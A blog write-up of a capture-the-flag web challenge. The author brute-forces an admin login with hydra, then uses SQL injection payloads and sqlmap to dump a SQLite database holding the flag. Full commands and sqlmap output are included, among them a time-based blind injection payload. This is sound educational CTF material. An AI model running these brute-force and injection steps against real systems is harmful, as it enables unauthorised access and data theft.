 ```yaml
---
title: Injector
author: josephkimiri
date: 2025-08-11 11:04:00 +0300
categories: [CTFs, Web]
tags: [Chasing Flags Arise CTF, ctfs, ]
render_with_liquid: false
image: /assets/img/blog/arise.png
---
```



Apologies for publishing this write-up after the CTF. The challenge creators have since taken the challenges offline, so I’ll be recreating this write-up from memory.

To begin, the challenge description (paraphrase) essentially stated: "Chain the vulnerabilities to obtain the flag."

When we visit the given link (http://52.209.211.118:6004/) we are presented with a login page.

I attempted multiple login bypass techniques including SQLi payloads like `'or 1=1-- -`  but each attempt resulted in a `Connection error.` message.

After some thought, the only logical next step was to brute-force the login. Why? Because it was the last trick I had left in my toolkit.


So, I fired up `hydra`, though if you have the Pro version of Burp Suite, you could just as well use Burp Intruder.

As you probably know, having a valid username makes the job much easier. In most web applications, there’s a good chance you’ll find a default username like `Administrator` or `admin`. In our case, I was fortunate in guessing `admin` and it worked on the first try, and the password was hidden behind five asterisks `*****`.

![simulation of how hydra is used for bruteforcing Login pages](/assets/img/blog/image.png)

With that password, I logged in as admin. 

Here, we are given an input field to change the Access ID,

![Image Courtesy of Michael Khanda](/assets/img/blog/image-2.png)

![Img Courtesy of c1ph3rbnuk ](/assets/img/blog/image-1.png)

After experimenting with a few payloads, including XSS and SSTI, I discovered the application was vulnerable to SQL injection. When I modified the user ID with the payload `'or 1=1-- -`, it returned an empty user ID, whereas `'or 1=2-- -` produced no change.

Next, it was time for `sqlmap` to come to the rescue. Initially, I ran into issues with sqlmap failing to detect the backend DBMS though it eventually picked the `sqlite` database.

I first saved the request as a req.txt file to carry with me the aythentication tokens.

![req.txt](/assets/img/blog/image-3.png)

Now using this command `sqlmap -r req.txt --level=5 --risk=3 --time-sec=10`, I was able to get the the name of the database `SQLite_masterdb`

The only thing left was to dump the secret..I however dumped everything just to see the other user we missed during `hydra` bruteforce.

```sh
➜  web sqlmap -r req.txt -D SQLite_masterdb --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.9.8#stable}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:13:51 /2025-08-09/

[12:13:51] [INFO] parsing HTTP request from 'req.txt'
[12:13:51] [INFO] resuming back-end DBMS 'sqlite'
[12:13:51] [INFO] testing connection to the target URL
got a 302 redirect to 'http://52.209.211.118:6003/'. Do you want to follow? [Y/n] n
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: new_username (POST)
    Type: time-based blind
    Title: SQLite > 2.0 AND time-based blind (heavy query)
    Payload: new_username=kaka' AND 3133=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- ltNL
---
[12:13:53] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[12:13:53] [INFO] fetching tables for database: 'SQLite_masterdb'
[12:13:53] [INFO] fetching number of tables for database 'SQLite_masterdb'
you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n] y
.............................. (done)
[12:14:01] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] y
2
[12:14:12] [INFO] retrieved:
[12:14:16] [INFO] adjusting time delay to 4 seconds due to good response times
users
[12:15:26] [INFO] retrieved: secrets
[12:16:54] [INFO] retrieved: CREATE TAB
[12:19:21] [ERROR] invalid character detected. retrying..
[12:19:21] [WARNING] increasing time delay to 5 seconds
LE user
[12:21:26] [ERROR] invalid character detected. retrying..
[12:21:26] [WARNING] increasing time delay to 6 seconds
s (username TEXT)
[12:25:56] [INFO] fetching entries for table 'users'
[12:25:56] [INFO] fetching number of entries for table 'users' in database 'SQLite_masterdb'
[12:25:56] [INFO] retrieved: 2
[12:26:05] [INFO] retrieved: admin
[12:27:06] [INFO] retrieved: bob
Database: <current>
Table: users
[2 entries]
+----------+
| username |
+----------+
| admin    |
| bob      |
+----------+

[12:27:44] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/j053/.local/share/sqlmap/output/52.209.211.118/dump/SQLite_masterdb/users.csv'
[12:27:44] [INFO] retrieved: CREATEpersonnel TABLE secrets (flag TEXT)
[12:34:57] [INFO] fetching entries for table 'secrets'
[12:34:57] [INFO] fetching number of entries for table 'secrets' in database 'SQLite_masterdb'
[12:34:57] [INFO] retrieved: 1
[12:35:02] [INFO] retrieved: ctf{chasing_flags_injections_everywhere}
Database: <current>
Table: secrets
[1 entry]
+------------------------------------------+
| flag                                     |
+------------------------------------------+
| ctf{chasing_flags_injections_everywhere} |
+------------------------------------------+

[12:45:30] [INFO] table 'SQLite_masterdb.secrets' dumped to CSV file '/home/j053/.local/share/sqlmap/output/52.209.211.118/dump/SQLite_masterdb/secrets.csv'
[12:45:30] [INFO] fetched data logged to text files under '/home/j053/.local/share/sqlmap/output/52.209.211.118'

[*] ending @ 12:45:30 /2025-08-09/

➜
```

That was it. I was happy to have blooded the challenge..cheers to the author, Now where is my 3K??